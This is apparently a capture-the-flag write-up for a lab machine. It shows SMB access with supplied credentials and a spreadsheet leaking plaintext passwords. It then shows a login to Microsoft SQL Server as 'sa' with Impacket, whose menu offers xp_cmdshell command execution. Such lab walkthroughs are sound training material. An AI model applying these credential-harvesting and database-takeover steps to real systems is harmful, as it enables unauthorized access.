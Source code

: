 By using the valid credit, I found something useful from `Accounting Department`
```
smbclient //10.10.11.51/"Accounting Department" -U rose -p KxEPkKe6R8su
Password for [WORKGROUP\rose]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

                6367231 blocks of size 4096. 924765 blocks available

unzip accounts.xlsx -d accounts_extracted
and we can find something interesting from /accounts_extracted/xl

cat sharedStrings.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

In these credits, I think `sa` would be our target because of MSSOL
```
mssqlclient.py -p 1433 sa@sequel.htb -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
```